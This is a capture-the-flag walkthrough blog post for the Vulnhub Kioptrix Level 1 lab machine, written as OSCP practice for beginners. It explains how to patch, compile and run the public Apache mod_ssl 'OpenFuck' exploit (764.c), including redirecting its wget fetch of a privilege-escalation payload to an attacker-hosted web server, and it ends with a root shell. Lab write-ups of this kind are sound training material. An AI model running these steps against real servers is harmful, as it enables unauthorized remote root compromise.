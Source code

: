 ```yaml
---
title: "Vulnhub - Kioptrix: Level 1 (#1)"
date: 2019-04-15
categories:
  - CTF
tags:
  - Vulnhub
  - OSCP
---
```


This is an updated 2019 Vulnhub walkthrough for [**Kioptrix level 1**](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/) that is beginners difficulty (great for newbies!). If you had read some OSCP preparation blogs that mentioned this vulnerable machine is great for beginners ([abatchy's walkthrough](https://www.abatchy.com/2017/02/oscp-like-vulnhub-vms.html)) and like me, you had a hard time trying to root this machine due to issues compiling the exploit code for _Apache mod_ssl OpenSSL_, you may find this helpful.

I will try to submit this to Vulnhub even though there are already many walkthrough linked in the page but the most recent one was dated 16 May 2017 almost 2 years ago. I hope this can help those trying to root into this supposedly beginner's machine without feeling so "overwhelmed" and nothing feels better than eg. trying a lab exercise and having it work out. :) Because I understand that it sucks trying to figure out why this specific exploit didn't work for you, when a dozen other blogs already said and posted _been-there-done-this-machine_ years ago.

_As I mentioned that the purpose of writing this is more of to 'update' the instructions of compiling and executing the exploit code for apache mod_ssl vulnerability, please know that this is **not** the only way to exploit this vulnerable machine - I believe there are 2 methods (or more I don't know) eg. using metasploit to exploit once you find out that Samba version using the SMB enumeration tools like enum4linux. I am not going to show you what I tried that didn't work (like in many other blogs) but I will cut to the chase focus on how to get root by executing the exploit code for apache mod_ssl._


I started off scanning using `arp-scan -l` to find out the target's ip address. Then followed by doing a portscan using **nmap** to find out open ports, the versions for services, OS version.
![]({{site.url}}{{site.baseurl}}/assets/images/nmap-scan-ports-1.png)

Then use **nikto** to perform vulnerability scanning to see if there vulnerability that may most likely let us get root (eg. a remote shell) and you will find one [CVE-2002-0082](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082) saying it is a remote buffer overflow which may allow a remote shell.
![]({{site.url}}{{site.baseurl}}/assets/images/nikto-scan-1.png)

If you check back on the scan results previously, you will notice that this vulnerability actually lies in the outdated _Apache version 1.3.20 mod_ssl/2.8.4 for SSL port 443._![]({{site.url}}{{site.baseurl}}/assets/images/apache-mod_ssl-vulnerable.png)

Next, you can try to find the exploit associated with this vulnerability. Use **searchsploit** to search the keywords apache mod_ssl for any exploit code to use for this case.
![]({{site.url}}{{site.baseurl}}/assets/images/searchsploit-results.png)

You will notice that there is a match for _Apache mod_ssl version 2.8.7_ and below: there are 2 piece of code we can use, naturally lets just use the one that seem like the newer 'version 2' code which is located at the path '/usr/share/exploitdb/exploits/unix/remote/764.c'. Basically what you will do is copy out this .c code from the given path and then compile this exploit program. When it is compiled successfully, you will execute this with the given options eg. connecting to a target and it should return a rooted shell back to your Kali machine.

**This is the part where you will encounter issues (if you tried following other walkthroughs on how to compile this piece of c code).** Alot of googling work made below possible thanks to [https://medium.com/@javarmutt](https://medium.com/@javarmutt/how-to-compile-openfuckv2-c-69e457b4a1d1) and [https://blog.rootshellz.com/kioptrix-walkthrough-1/index.html](https://blog.rootshellz.com/kioptrix-walkthrough-1/index.html). I only managed to get this to work when I **combined** both solutions found in the mentioned blogs.



## How to Correctly Compile The Exploit Code
We will copy out the piece of code from the given path and use an editor to edit the code by using 
```bash
cp /usr/share/exploitdb/exploits/unix/remote/764.c 764.c

#edit code using nano (or your prefered editor)
nano 764.c
``` 

### part 1: add these at the top of file #include and #define

```c
#include <openssl/rc4.h>
#include <openssl/md5.h>

#define SSL2_MT_ERROR 0
#define SSL2_MT_CLIENT_FINISHED 3
#define SSL2_MT_SERVER_HELLO 4
#define SSL2_MT_SERVER_VERIFY 5
#define SSL2_MT_SERVER_FINISHED 6
#define SSL2_MAX_CONNECTION_ID_LENGTH 16
```
![]({{site.url}}{{site.baseurl}}/assets/images/codechange1.png)

* * *

### part 2: replace wget url in exploit code
There is a part in this program that is looking to download a file from a url. If you're like me, you had set up the vulnerable machine to be in a closed network (same subnet as you). The VM will have not internet access to download file. Do the following: setup a local area network webserver in the local network that will serve the file our program need (instead of downloading form the internet). The part in the code where it will go download this **ptrace-kmod.c** file from the internet is around line 672 wget command. (we will set up the webserver later)

**replace this**
```c
wget http://packetstormsecurity.nl/0304-exploits/ptrace-kmod.c
```
**with** 
```c
wget http://192.168.56.111:8000**/ptrace-kmod.c
``` 
**Note:** _"192.168.56.111:8000" should be your attacking machine ip address:8000_
{: .notice--primary}
![]({{site.url}}{{site.baseurl}}/assets/images/codechange2-1.png)

* * *

### part 3: add "const" to variable
At about line 970 add `const` to beginning of the pointer variable `unsigned char *p, *end;`
![]({{site.url}}{{site.baseurl}}/assets/images/codechange3.png)

* * *

### part 4: modify these 2 lines

At about line 1078 **replace this**
```c
(pkey->type != EVP_PKEY_RSA)
```
**with** 
```c
(EVP_PKEY_get1_RSA(pkey) == NULL)
```

At about line 1086 **replace this** 
```c
pkey->pkey.rsa
```
**with**
```c
with EVP_PKEY_get1_RSA(pkey)
```
![]({{site.url}}{{site.baseurl}}/assets/images/codechange4.png)

* * *

### part 5: install libssl-dev

Install the dependency for compiling this c program by using command
```bash
apt-get install libssl-dev
```

* * *

### part 6: compiling code

You should now be able to compile the file and not have any errors. 
```bash
gcc -o 764 764.c -lcrypto
```

* * *
## Using compiled exploitation code

The exploit code is still missing one piece of info to successfully exploit your target machine: the dependency file `ptrace-kmod.c`. We will serve from our webserver.

First, download the required file
```bash
wget https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
```

In the same directory that you downloaded the file, start webserver 
```bash
python -m SimpleHTTPServer
```
![]({{site.url}}{{site.baseurl}}/assets/images/simplehttpserver.png)

Now, lets test this url link and if we are able to download the file which the exploit code is looking for 
```bash
wget http://192.168.56.111:8000/ptrace-kmod.c
```
**Note:** _"192.168.56.111:8000" should be your attacking machine ip address:8000_
{: .notice--primary}

![]({{site.url}}{{site.baseurl}}/assets/images/test-simplehttpserver.png)
The link works. Lets finally exploit and get root!

To use the exploit program we compiled, see the options available by using 
```
./764
```
It will show it's usage instructions.
![]({{site.url}}{{site.baseurl}}/assets/images/runing764.png)

For `target`, we will chose available exploit option that is closest to the vulnerable Apache server version 1.3.20 (which we found out during initial scan). There are 2 available options for target, we will use the first one `0x6a`
![]({{site.url}}{{site.baseurl}}/assets/images/runing764-target.png)

Execute the exploit using 

```
.\764 0x6a 192.168.56.110 -c 50
```
**Note:** If it was unsuccessful, try the other `target` option. 
![]({{site.url}}{{site.baseurl}}/assets/images/exploit764a.png)
_hmm.. Didn't get a shell session.._
{: .notice--primary}

We know the other target available is `0x6b` instead. Let's try this instead.
![]({{site.url}}{{site.baseurl}}/assets/images/exploit764b_success.png)
_Yay got shell now!_

```
.\764 0x6b 192.168.56.110 -c 50
```
This time we had gain root into the machine. You will also notice that during the exploit, the program executed the wget ptrace-kmod.c file get from your webserver successfully. This may be the part where many had encounter an issue for trying to exploit this but ended up with _apache _user priviledges instead of root. If you do **whoami** you should see that you had gain _root_ access into the machine.

Hope this helps!
